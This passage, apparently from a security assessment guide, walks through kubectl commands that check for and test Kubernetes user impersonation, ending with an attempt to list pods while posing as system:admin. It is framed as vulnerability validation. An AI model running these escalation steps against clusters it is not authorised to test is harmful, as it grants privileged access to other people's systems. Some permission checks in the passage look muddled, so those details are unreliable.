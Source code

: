 ## 2. Validation and Exploitation Steps

### Step 1: Check Current User's Permissions

First, identify the user context that `kubectl` is currently using and verify its permissions. This helps understand what the current user can do before attempting impersonation.

```bash
kubectl config current-context
```

**Explanation:** This command displays the currently configured context in your `kubectl` configuration, effectively showing which cluster and user you're currently authenticating as.

**Expected Output:** A context name, e.g., `minikube`.

```bash
kubectl auth can-i impersonate users/attacker-user --as system:admin
```

**Explanation:** Use `kubectl auth can-i` to determine if the current user has the "impersonate" verb on the "users" resource. Change `attacker-user` to the attacker user that is in the current context. This checks if you can impersonate other users.  The `--as system:admin` option runs the command as if the user was `system:admin`.

**Expected Output:** `yes` if you have permission, `no` if you don't.

If the output is `no`, you'll need to find a user or service account with the `impersonate` verb to continue. Try a service account:

```bash
kubectl auth can-i impersonate users/attacker-user --as system:serviceaccount:kube-system:default
```

**Explanation:** Similar to the above, but checks if the service account `system:serviceaccount:kube-system:default` has `impersonate` rights on the `users` resource.

**Expected Output:** `yes` or `no`.

If none of the above checks succeed, enumerate the roles and rolebindings on the cluster to identify any that grant `impersonate` permissions. This process is beyond the scope of this document, but tools like `kube-hunter` can automate this process.  If no `impersonate` privileges are found, exploitation cannot continue.  Otherwise, replace the commands using the appropriate username or service account where appropriate.

### Step 2:  Attempt Impersonation using kubectl

Now, attempt to impersonate a privileged user (e.g., `system:admin`) using `kubectl`.

```bash
kubectl get pods --as system:admin
```

**Explanation:** This command attempts to retrieve all pods in the cluster while impersonating the `system:admin` user.  `--as` flag instructs `kubectl` to add the `Impersonate-User` header to the API request.

**Expected Output:**
*   **Success (Vulnerable):** If the command succeeds and returns a list of pods, the impersonation attack is successful. The cluster is vulnerable.
*   **Failure (Not Vulnerable):** If the command fails with an authorization error or similar, the impersonation is not working, indicating tighter RBAC controls are in place, or the user does not have impersonation rights.
